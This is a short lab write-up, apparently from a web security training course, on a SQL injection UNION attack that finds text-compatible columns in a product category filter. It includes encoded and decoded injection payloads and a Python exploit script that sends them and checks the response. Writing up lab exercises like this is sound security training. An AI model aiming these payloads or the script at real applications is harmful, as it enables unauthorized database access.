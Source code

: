This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

---

Payload:
```php
GET /filter?category=Pets'%20UNION%20SELECT%20NULL%2c'TXxfxE'%2cNULL--
```

Decoded:
```php
GET /filter?category=Pets' UNION SELECT NULL,'TXxfxE',NULL--
```

![[Pasted image 20240831060409.png]]

After resetting the lab it asked for a different table name to complete the exercise which is why it is called `F1r6Bt` in the following script. If you want to re-use the script you'll have to change two entries, both values for `F1r6Bt` need to be changed to the new value. 

```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def union_atk(s, url):
	exploit_url = url + "filter?category=Pets'%20UNION%20SELECT%20NULL%2c'F1r6Bt'%2cNULL--"
	r = s.get(exploit_url, verify=False, proxies=proxies)
	if 'F1r6Bt' in r.text:
		print('(+) Exploit success!')
		
	else:
		print('(-) Exploit failed.')

def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s www.example.com/' % sys.argv[0])
		sys.exit(-1)
		
	s = requests.Session()
	url = sys.argv[1]
	union_atk(s, url)

if __name__ == '__main__':
	main()
```